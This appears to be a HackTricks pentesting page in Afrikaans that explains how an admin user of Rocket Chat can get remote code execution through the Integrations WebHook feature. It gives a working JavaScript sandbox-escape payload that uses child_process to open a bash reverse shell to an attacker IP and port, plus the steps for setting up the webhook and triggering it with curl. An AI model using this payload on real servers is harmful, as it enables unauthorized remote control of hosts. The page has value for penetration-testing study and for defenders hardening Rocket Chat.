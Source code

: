 # Rocket Chat

{{#include ../../banners/hacktricks-training.md}}


## RCE

As jy admin binne Rocket Chat is, kan jy RCE kry.

- Gaan na **`Integrations`** en kies **`New Integration`** en kies enige: **`Incoming WebHook`** of **`Outgoing WebHook`**.
- `/admin/integrations/incoming`

<figure><img src="../../images/image (266).png" alt=""><figcaption></figcaption></figure>

- Volgens die [docs](https://docs.rocket.chat/guides/administration/admin-panel/integrations), gebruik albei ES2015 / ECMAScript 6 ([basies JavaScript](https://codeburst.io/javascript-wtf-is-es6-es8-es-2017-ecmascript-dca859e4821c)) om die data te verwerk. So kom ons kry 'n [rev shell vir javascript](../../generic-hacking/reverse-shells/linux.md#nodejs) soos:
```javascript
const require = console.log.constructor("return process.mainModule.require")()
const { exec } = require("child_process")
exec("bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1'")
```
- Konfigureer die WebHook (die kanaal en pos as gebruikersnaam moet bestaan):

<figure><img src="../../images/image (905).png" alt=""><figcaption></figcaption></figure>

- Konfigureer WebHook skrip:

<figure><img src="../../images/image (572).png" alt=""><figcaption></figcaption></figure>

- Stoor veranderinge
- Kry die gegenereerde WebHook URL:

<figure><img src="../../images/image (937).png" alt=""><figcaption></figcaption></figure>

- Roep dit aan met curl en jy behoort die rev shell te ontvang


{{#include ../../banners/hacktricks-training.md}}
